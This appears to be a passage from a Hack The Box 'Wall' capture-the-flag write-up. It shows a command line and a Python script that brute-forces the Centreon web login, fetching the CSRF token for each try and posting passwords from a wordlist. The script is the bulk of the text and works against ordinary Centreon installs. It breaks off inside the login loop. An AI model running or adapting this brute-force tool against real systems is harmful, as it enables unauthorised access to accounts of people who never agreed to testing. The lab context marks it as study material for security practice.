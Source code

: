 ```sh
python3 brute_centreon.py -t 10.10.10.157 -u admin -w list.txt
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2008:43:41.png)

```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Wall
# User Brute Force Centreon

import argparse
import requests
import sys
import os

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First, we need to get the Centreon Token
def getCentToken(rhost):
    # Build the url
    login_url = 'http://' + rhost + '/centreon/'
    # Make cent_token global
    global cent_token
    # Make the request to get cent token
    cent_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for centron_token in it
    index = cent_page.text.find("centreon_token")
    # Get only the centreon_token in it
    cent_token = cent_page.text[index:index+128].split('"')[4]
    if cent_token:
        print("[+] We got the Cent Token [+]")
        return cent_token
    else:
        print("[+] Cannot get the Cent Token [+]")
        exit

# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let the login url
    login_url = 'http://' + rhost + '/centreon/'
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the cent_token for each request
        getCentToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"useralias": "%s" %username, "password": "%s" %line, "submitLogin": "Connect", "centreon_token": "%s" %cent_token}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
```